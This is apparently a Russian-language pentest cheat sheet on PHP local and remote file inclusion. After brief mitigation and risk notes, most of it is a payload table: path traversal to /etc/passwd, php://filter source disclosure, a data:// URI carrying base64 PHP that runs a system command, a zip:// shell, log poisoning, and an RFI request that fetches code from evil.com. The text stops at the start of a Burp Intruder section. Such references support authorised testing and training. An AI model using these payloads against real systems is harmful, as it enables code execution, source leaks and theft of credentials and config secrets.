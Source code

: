 ### ✅ Полное исключение пользовательского ввода

* Никогда не передавать пути в `include()`/`require()` без проверки.
* Использовать `switch`/`match` вместо динамического подключения.

---

## ⚠️ Риски

* 🔓 Утечка `config.php` с паролями
* 🔓 RCE при включении файлов с кодом
* 🔓 SSRF на внутренние хосты
* 🔓 Информация о системе через `/proc/self/environ`, `/etc/passwd`

---

## 🧪 Практика:

* `php://filter` — просмотр исходного кода
* `data://` — исполнение инъекций
* `zip://` — LFI to RCE при загрузке архива
* `log poisoning` — если можно записывать в `access.log` и потом инклюдить

Вот дополнение к секции **File Inclusion**, которое включает полезные payload'ы, шаблоны для Burp и технику log poisoning:

---

## 🧪 Набор полезных payload’ов для LFI/RFI

| Цель                                 | Payload                                                               |
| ------------------------------------ | --------------------------------------------------------------------- |
| 📂 Простой LFI                       | `?page=../../../../etc/passwd`                                        |
| 🔚 Null byte truncation (до PHP 5.3) | `?page=../../../../etc/passwd%00`                                     |
| 📖 Чтение исходников                 | `?page=php://filter/convert.base64-encode/resource=index.php`         |
| 🧪 Инъекция PHP-кода через data-URI  | `?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCd3aG9hbWknKTs/Pg==` |
| 💉 Zip-архив с shell                 | `?page=zip://path/to/shell.zip%23shell.php`                           |
| 📓 Access log injection              | `?page=/var/log/apache2/access.log` *(после log poison)*              |
| 🌐 RFI                               | `?page=http://evil.com/malicious.txt`                                 |

---

## ⚙️ Burp Suite Intruder шаблоны

### 📁 LFI Dictionary (Intruder payload list)
